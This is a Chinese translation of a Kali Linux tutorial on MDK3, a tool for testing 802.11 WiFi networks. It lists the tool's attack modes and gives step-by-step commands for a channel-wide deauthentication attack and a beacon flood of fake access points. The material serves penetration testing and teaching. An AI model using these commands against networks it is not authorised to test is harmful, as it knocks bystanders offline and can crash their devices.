






# 使用 MDK3、信标泛洪和解除认证攻击进行 WiFi 压力测试。

> 原文：<https://kalilinuxtutorials.com/mdk3/>

[](https://i2.wp.com/kalilinuxtutorials.com/wp-content/uploads/2015/09/mdk-feature.jpg?fit=1500%2C1000&ssl=1)

MDK3 是一个概念验证工具。它用于压力测试 802.11 网络(wifi)。它包括我们可以用来进行测试的各种方法。一些主要方法是信标泛洪、去认证、WPA- dos 等。在 pentests 中，mdk 用于测试具有 802.11 实现的网络基础设施，并确保符合标准。

## **选项**

```
Syntax : mdk3 <interface> <testmode> <test-options>
```

```
Mdk3 –help <test mode> : for test options

TEST MODES:

b   - Beacon Flood Mode

Sends beacon frames to show fake APs at clients. This can sometimes crash network scanners and even drivers!

a   - Authentication DoS mode

Sends authentication frames to all APs found in range. Too much clients freeze or reset some APs.

p   - Basic probing and ESSID Bruteforce mode

Probes AP and check for answer, useful for checking if SSID has been correctly decloaked or if AP is in your adaptors sending range SSID Brute-forcing is also possible with this test mode.

d   - Deauthentication / Disassociation Amok Mode

Kicks everybody found from AP 
m   - Michael shutdown exploitation (TKIP)

Cancels all traffic continuously 
x   - 802.1X tests

w   - WIDS/WIPS Confusion

Confuse/Abuse Intrusion Detection and Prevention Systems 
f   - MAC filter bruteforce mode

This test uses a list of known client MAC Adresses and tries to authenticate them to the given AP while dynamically changing its response timeout for best performance. It currently works only on APs who deny an open authentication request properly 
g   - WPA Downgrade test

Deauthenticates Stations and APs sending WPA encrypted packets. With this test you can check if the sysadmin will try setting his network to WEP or disable encryption. 
```

* * *

## **实验 1:取消通道中所有客户端的身份验证**

在本实验中，我们尝试拒绝向一个通道中的所有客户端提供服务。这被称为去认证测试。

**步骤 1** :首先我们必须确保监视器接口已启用。

```
Command: iwconfig
```

这显示了所有的无线接口及其无线属性。

[](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-1/#main)

Wireless Devices & Properties

**第二步**:启动监控界面

```
Command : airmon-ng start wlan0<your interface here>
```

[](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-2/#main)

Starting monitor Interface.

**第三步**:查看附近所有的接入点&确定我们的目标。

```
Command: airodump-ng mon0
```

这将显示所有 wifi 接入点，包括附近隐藏的接入点。

[](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-3/#main)

Starting Airodump & Selecting Target

从中我们获得了很多信息。接入点、mac IDs、客户端、每个 AP 广播的信道等。这里只有一个 AP 是我们的目标。我们可以从上面的图像中看到，它正在第 6 频道运行。所以让我们对第六频道发起攻击。

```
Command: mdk3 mon0 d -c 6
```

[](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-4/#main)

De-authentication Attack

* * *

## **实验 2:信标泛滥**

本实验的特点是以极快的速度在不同的 SSIDs(广播名称)中创建假接入点。这可能会导致某些客户端或无线中继接入点或范围扩展器等崩溃。

**步骤 1** :确保监控界面在您的系统中运行。请参见之前的实验。

**第二步**:发动攻击

```
Command : mdk3 mon0 b
```

[](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-5/#main)

Beacon Flood Attack

这是一部安卓手机，展示了我们制作的所有接入点。它很可能会崩溃

[](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-6/#main)

Fake APs appearing on nearby devices.

参考:[http://tools.kali.org/wireless-attacks/mdk3](http://tools.kali.org/wireless-attacks/mdk3)